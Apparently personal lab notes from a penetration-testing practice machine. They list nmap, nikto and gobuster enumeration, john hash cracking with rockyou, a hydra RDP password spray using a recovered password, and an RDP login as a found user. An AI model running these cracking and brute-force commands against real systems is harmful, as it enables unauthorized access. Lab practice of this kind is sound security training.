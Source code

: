 192.168.109.111
========================

# Enumeration

    sudo nmap_enum 192.168.109.111 | tee nmap_output.txt

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 192.168.109.111

![qownnotes-media-rPKKKM](../media/qownnotes-media-rPKKKM.png)


    sudo nmap -p- -T5 -Pn -n 192.168.109.111

![qownnotes-media-Bbiwbx](../media/qownnotes-media-Bbiwbx.png)


    nikto -host http://192.168.109.111 -T x 6 | tee nikto_output.txt
    
    nikto -host http://192.168.109.111:8080 -T x 6 | tee nikto_8080_output.txt
    
![qownnotes-media-XrRwRI](../media/qownnotes-media-XrRwRI.png)


    nmap -Pn -sV -p 3389 --script="banner,(rdp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_3389_rdp_nmap.txt" 192.168.109.111

![qownnotes-media-soVzzM](../media/qownnotes-media-soVzzM.png)

    gobuster dir -u http://192.168.109.111 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
    
    gobuster dir -u http://192.168.109.111:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
    
    gobuster dir -u http://192.168.109.111:8080/dev -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"

![qownnotes-media-hVJRyn](../media/qownnotes-media-hVJRyn.png)
    
FTP Anonymous login

    
    john --wordlist=/usr/share/wordlists/rockyou.txt hashists/rockyou.txt hash.txt
    


![qownnotes-media-Qcwqmt](../media/qownnotes-media-Qcwqmt.png)

    cat users_temp.txt

![qownnotes-media-PTtrRu](../media/qownnotes-media-PTtrRu.png)


# Exploitation

    hydra -L users_temp.txt -p working925 rdp://192.168.109.111
    

![qownnotes-media-BuGPui](../media/qownnotes-media-BuGPui.png)

    xfreerdp /v:192.168.109.111 /u:clinton

![qownnotes-media-LXuIHK](../media/qownnotes-media-LXuIHK.png)
